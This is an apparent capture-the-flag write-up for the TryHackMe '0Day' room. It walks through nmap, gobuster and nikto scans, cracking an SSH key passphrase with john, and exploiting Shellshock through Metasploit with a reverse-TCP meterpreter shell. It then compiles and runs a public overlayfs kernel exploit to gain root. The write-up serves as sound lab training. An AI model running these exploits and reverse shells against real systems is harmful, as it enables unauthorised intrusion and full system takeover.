




# 0Day - TryHackMe.com

[Link to room on TryHackMe.com](https://tryhackme.com/room/0day)

First step as always: enumerating ports with nmap:
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ nmap -p- -sC -sV 10.10.202.169       
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-22 07:47 CEST
Nmap scan report for 10.10.202.169
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.16 seconds
~~~
The OpenSSH Version number already indicates that this is not a very current release ...

Scaning webserver with gobuster::
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ gobuster dir -w /opt/gobuster-common.txt -u http://10.10.202.169
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.202.169
[+] Threads:        10
[+] Wordlist:       /opt/gobuster-common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/21 19:55:44 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/backup (Status: 301)
/cgi-bin/ (Status: 403)
/cgi-bin (Status: 301)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/10/21 19:56:07 Finished
===============================================================
~~~

Author laughing at us in robots.txt

Just you wait ... 

/secret shows the turtle ... another stego?

~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ zsteg turtle.png                                                                                                                                                                              1 ⨯
[=] nothing :( 
~~~

/backup shows us an encrypted RSA key:

Cool, could be something! Save key to disk (as id_rsa) and extract hash with ssh2john.py, then bruteforce with john and rockyou.txt
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ sudo john --wordlist=/opt/rockyou.txt id_rsa.hash                                                                                                                                           127 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxx          (id_rsa)
1g 0:00:00:02 DONE (2020-10-21 20:05) 0.4166g/s 5975Kp/s 5975Kc/s 5975KC/s  0125457423 ..*7¡Vamos!
Session completed
~~~
Nice!  we could use it with `ssh user@10.10.202.169 -i id_rsa`, but what's the username??? 

Tried the obvious (turtle, 0day, ryan, ... ), but no luck. :(

After trying for a long while without success, it becomes clear that essentially all the content of the webserver is just decoy ... 

A nikto scan reveals the real vulnerability:
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ nikto --host http://10.10.202.169
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.202.169
+ Target Hostname:    10.10.202.169
+ Target Port:        80
+ Start Time:         2020-10-22 07:13:25 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header '93e4r0-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
[...]
~~~
Shellshock! Now that turtle-stuff makes sense!

We can easily exploit it with Metasploit
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ msfconsole -q                                                                                                                                      

msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux x86

msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhost 10.10.202.169
rhost => 10.10.51.105
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 10.xx.xx.xx
LHOST => 10.9.156.68
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.xx.xx.xx:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.202.169
[*] Meterpreter session 1 opened (10.xx.xx.xx:4444 -> 10.10.202.169:38928) at 2020-10-21 20:42:11 +0200

meterpreter > getuid
Server username: no-user @ ubuntu (uid=33, gid=33, euid=33, egid=33)
~~~

From here on we can open a shell and grab the user flag:
~~~
meterpreter > shell
Process 1503 created.
Channel 1 created.
$ cat /home/ryan/user.txt	
THM{xxxxxxxxxxxxxxxxxxxxxxxxx}
~~~

For the privilege Escalation we note that we are on a quite old Ubuntu:
~~~
$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
~~~

A quick research reveals that it's probably vulnerable to the following exploit:
[Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)

We prepare it:
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ searchsploit -m 37292   
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators

Copied to: /home/marco/Desktop/THM/0Day/37292.c

                                                                                                  
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ dos2unix 37292.c   
dos2unix: converting file 37292.c to Unix format...
~~~

Upload it via meterpreter
~~~
meterpreter > cd /tmp
meterpreter > upload 37292.c
[*] uploading  : 37292.c -> 37292.c
[*] Uploaded -1.00 B of 4.85 KiB (-0.02%): 37292.c -> 37292.c
[*] uploaded   : 37292.c -> 37292.c
~~~

Open a shell to compile it with gcc (which luckily is available on the target)
~~~
meterpreter > shell
Process 1182 created.
Channel 74 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -o exploit 37292.c
gcc -o exploit 37292.c
www-data@ubuntu:/tmp$ ls -al exploit
ls -al exploit
-rwxr-xr-x 1 www-data www-data 13652 Oct 21 22:41 exploit
~~~

Now we can run the exploit and take the flag:
~~~
www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxxxx}
~~~
That was a nice little challenge and I loved loosing myself in the rabbit holes :)
